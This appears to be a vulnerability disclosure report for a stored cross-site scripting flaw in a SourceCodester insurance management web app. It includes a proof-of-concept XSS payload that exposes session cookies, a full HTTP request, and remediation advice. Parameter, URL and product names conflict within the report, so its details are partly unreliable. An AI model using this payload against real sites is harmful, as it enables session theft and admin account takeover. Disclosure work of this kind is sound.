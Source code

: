 Stored Cross-Site Scripting Vulnerability in SourceCodester Online Ticket genereation System
:

    Vendor: Sourcecodester
    Product: Insurance Management System
    Product URL: Insurance Management System

Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Insurance Management System 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "Category Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Stored XSS in Category Name
    Severity: High
    Affected URL: http://localhost/e-insurance/Script/admin/core/new_category2
    Affected Parameter: Category Name
    HTTP Method: POST

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "Category Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "Category Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/e-insurance/Script/admin/core/new_category2 

Fill in the desired data in the input fields . Intercept the request in the web proxy. Modify the lname parameter as shown below and send the request to the server.

category=4&subject=<h1+onmouseover=confirm(document.cookie)>hii</h1>&description=hii&submit=1

    In the browser having admin account logged in, navigate to the Support Ticket section and see the XSS being executed with the authentication cookies as well, which will result in the Account Takeover of Admin.

https://drive.google.com/file/d/1TTO1_aVunRwALXPgZAfAZP4RhwgWXN4C/view?usp=drive_link
Payload:

name=<h1+onmouseover=confirm(document.cookie)>hii</h1>&status=1&submit=1


Request:
```bash
POST /e-insurance/Script/admin/core/new_category2 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://localhost
Connection: close
Referer: http://localhost/e-insurance/Script/admin/?page=ticket_categories
Cookie: PHPSESSID=kmfcp9qgvb789441h8l4ues37v; __insuarance__logged=1; __insuarance__key=DEAH5SIN6WSHVCZFXTH5
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

name=<h1+onmouseover=confirm(document.cookie)>hii</h1>&status=1&submit=1
```
Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.
References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/

Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the Category name parameter of http://localhost/e-insurance/Script./core/new_account, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.

